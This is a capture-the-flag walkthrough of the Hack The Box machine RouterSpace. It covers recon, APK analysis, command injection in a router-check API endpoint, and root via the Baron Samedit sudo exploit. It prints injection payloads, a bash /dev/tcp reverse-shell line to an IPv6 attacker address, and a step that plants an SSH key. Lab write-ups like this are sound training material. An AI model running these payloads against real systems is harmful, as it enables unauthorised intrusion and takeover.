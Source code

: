 # HTB: RouterSpace Walkthrough

## Box Info
- **Name:** RouterSpace  
- **OS:** Linux  
- **Difficulty:** Easy  
- **Release Date:** 26 Feb 2022  
- **Retire Date:** 09 Jul 2022  
- **Points:** 20

---

## Recon

### Nmap Scan
```
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.11.148
nmap -p 22,80 -sCV 10.10.11.148
```
- Ports Open: 22 (SSH), 80 (HTTP)
- Unknown SSH version with fingerprint
- HTTP returns headers like `X-Powered-By: RouterSpace`, no default CMS or tech found.

### Website - Port 80
- Landing page offers a **RouterSpace.apk** for download
- X-Headers are custom, possibly unique to this server

### Directory Brute Force
```
feroxbuster -u http://10.10.11.148 -X 'Suspicious activity detected !!!'
```
- `/cgi-bin`, `/admin`, `/images`, `/scripts`, `/includes` all found
- Nothing actionable from static analysis alone

---

## Android App Analysis

### APK Static Analysis
- Extract using apktool:
```
apktool d RouterSpace.apk
```
- Found domain `routerspace.htb` in cert
- App uses React Native
- Key JavaScript file: `assets/index.android.bundle`

### APK Dynamic Analysis
- Used **Genymotion** with API 27 to bypass HTTPS issues
- Set up proxy to forward traffic through Burp
- Observed endpoint:
```
POST /api/v4/monitoring/router/dev/check/deviceAccess
```
- Payload: `{ "ip": "<input>" }`

### SSTI / Command Injection
- Endpoint is vulnerable to **Command Injection**
- Successful payload: `{"ip": "$(id)"}`
- RCE confirmed, reverse shell blocked by firewall
- **IPv6 bypass** worked:
```
$(bash -c 'bash -i >& /dev/tcp/dead:beef:2::1004/443 0>&1')
```

### Establish SSH Access
- Used RCE to inject SSH key into `/home/paul/.ssh/authorized_keys`
- Connected as `paul` via SSH

---

## Privilege Escalation

### Enumeration with LinPEAS
- CVE findings:
  - **CVE-2021-3156 (Baron Samedit)**: vulnerable
  - **CVE-2021-4034 (PwnKit)**: false positive (not SUID)
  - **CVE-2021-3560 (Polkit)**: missing components
  - **CVE-2021-22555 (NetFilter)**: exploit failed

### Exploit CVE-2021-3156 (Baron Samedit)
- Cloned PoC: https://github.com/CptGibbon/CVE-2021-3156
- Built locally and transferred to target
```
make
./exploit
```
- Got root shell!


## Notes
- Key concepts: APK reverse engineering, React Native apps, Genymotion + Burp proxy, command injection, classic sudo vulnerability (Baron Samedit)
- IPv6 reverse shell bypass was a smart trick
- Emulation + dynamic analysis was the hardest setup
